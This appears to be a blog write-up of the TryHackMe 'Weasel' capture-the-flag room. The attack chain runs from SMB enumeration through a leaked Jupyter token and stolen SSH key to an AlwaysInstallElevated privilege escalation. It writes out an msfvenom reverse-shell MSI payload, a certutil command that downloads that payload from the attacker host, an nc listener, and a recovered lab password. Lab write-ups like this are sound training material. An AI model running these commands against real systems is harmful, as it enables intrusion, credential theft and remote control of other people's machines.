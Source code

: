```yaml
---
published: true
layout: post_toc
title: 2023-05-23-THM-Weasel
categories: Writeup
---
```

# Weasel
I think the data science team has been a bit fast and loose with their project resources.

#### Nmap Result

```bash 
nmap -sV -sC -O -T4 -n -Pn -oA fastscan -Pn
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-1.png){:width="70%"}

Based on the Nmap results, it appears that the machine is likely running a Windows operating system. This conclusion is supported by the presence of open ports associated with the SMB (Server Message Block) protocol, which is commonly used in Windows environments for file sharing and network communication. 

Additionally, the detection of a Jupyter Notebook deployment suggests that the machine may also be used for data science or development purposes. Jupyter Notebook is a popular platform for interactive computing, often utilized by data scientists and researchers. Taken together, the presence of open ports related to SMB and the availability of a Jupyter Notebook deployment point towards a Windows machine with potential data science or development activities.

#### Smb enumeration 

```bash 
smbclient --no-pass -L //10.10.215.176
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-2.png){:width="70%"}

we can see the available shares on a remote SMB server at the machine  there is available share named "datasci-team". but no additional comment or description is provided.

Let's connect to the datasci-team using smbclient. 
```bash 
smbclient --no-pass //10.10.215.176/datasci-team
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-3.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-4.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-5.png){:width="70%"}

It appears that the majority of the files are related to Weasel research. However, a noteworthy file of interest has been discovered. Within the "misc" directory, there is a file containing a Jupyter token, which could potentially provide access to the Jupyter Notebook instance.

#### Jupyter notebook 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-6.png){:width="70%"}

With the Jupyter token we obtained, we can easily gain access to the Jupyter Notebook instance. By using this token, we can authenticate ourselves and access the features and functionalities provided by Jupyter Notebook.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-7.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-8.png){:width="70%"}

By utilizing the functionality of Jupyter Notebook, it is possible to exploit a reverse shell technique, enabling us to gain access to the shell of the target machine.



#### Adding key to SSH Agent

Let's examine the user accounts by reviewing the contents of the /etc/passwd file. This file contains information about the users on the system, including their usernames, user IDs, group IDs, home directories, and default shells.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-9.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-10.png){:width="70%"}

Upon inspecting the home directory of dev-datasci, we discovered several files associated with Jupyter Notebook and Anaconda. Of particular interest to us is the file named dev-datasci-lowpriv_id_ed25519, which we can utilize to establish a connection to the previously identified open SSH. 

We can simply add the obtained ssh keys using the commands below and connect the the ssh keys.
```bash
eval "$(ssh-agent -s)"
ssh-add dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.215.176
```


#### User Flag

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-11.png){:width="70%"}

Once you have successfully connected to the SSH, you can easily retrieve the user flag located in the dev-datasci-lowpriv directory on the Desktop.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-12.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-13.png){:width="70%"}


![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-14.png){:width="70%"}

Take note the results of the default creds of the Default User Name which is ``wUqnKWqzha*W!PWrPRWi!M8faUn``

#### Privilege Escalation 

By executing the "net user" command, we can observe that there are a total of six user accounts, including our own. Our focus is on the administrator account.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel.png){:width="70%"}

Through a registry query, it has been determined that the "AlwaysInstallElevated" key is currently set to 1. This configuration suggests that privilege escalation can be achieved by utilizing the "msiexec" command. As a next step, we can generate an MSI payload to exploit this opportunity.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip-address> LPORT=4445 -f msi -o reverse.msi
```

```bast 
# From our Machine hosting the payload
sudo python3 -m http.sever 80
```

```bash
# From Victim(Target) Machine
certutil -urlcache -split -f http://10.8.120.163/reverse.msi
```

To exfiltrate our msfvenom payload to the target machine, we can utilize Python and certutil. Following that, we can proceed with privilege escalation by leveraging the "AlwaysInstallElevated" registry setting.

```bash 
runas /user:dev-datasci-lowpriv "msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi /qn"
```

```
# listener 
nc -lvnp 4445
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-15.png){:width="70%"}

#### Root Flag 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-16.png){:width="70%"}

Once you have successfully gained access, you can effortlessly retrieve the root flag located in the Administrator directory on the Desktop.

--- 
## References
- https://tryhackme.com/room/weasel
- https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54